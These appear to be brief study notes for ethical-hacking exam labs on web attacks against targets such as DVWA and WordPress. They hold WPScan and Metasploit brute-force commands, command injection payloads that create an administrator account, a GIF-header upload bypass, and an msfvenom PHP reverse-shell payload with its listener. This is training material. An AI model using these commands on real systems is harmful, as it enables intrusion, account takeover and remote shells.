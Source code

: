 1) Parameter Tampering = changing the last parameter = IDOR 
2) XSS = cross site scripting 
3) Enumeration and Hacking a web Application Using WPscan and metasploit  we can also use nmap to enumerate the users in wordpress 
	1) Commands for WPSCAN
		1) wpscan --url https://example/ --enumerate u (To enumerate the user) 
		2) wpscan --url http://172.16.0.27:8080/CEH/ -u james -P /path/pass.txt

	2) Commands for  metasploit 
		1) use auxiliary/scanner/http/wordpress_login_enum
		2) options
		3) run
4) Exploiting remote command execution login -> set the DVWA security to low  -> issue the commands
	1) for command injection
		1) | hostname
		2) | whoami
		3) | net user
		4) | dir C:\
		5) | net user Test /Add
		6) | net localgroup Administrators Test /Add

5) Vega 
	1) Add IP see the vuln

6) Acunetix 
	1) vuln scanner

7) Upload Vuln 
	1) all were easy 
	2) in one at GIF98 to the end of file to upload it and rename it as upload.php.jpg
	3) https://techsphinx.com/hacking/hacking-for-beginners-file-upload-vulnerability/
	4) msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f raw
	5) use exploit/multi/handler
	6) show options set lhost as 10.10.10.10. set lport 1234 -> done 

8) Command injection will see in paper 
9) CSRF 
	1) we will se in paper 

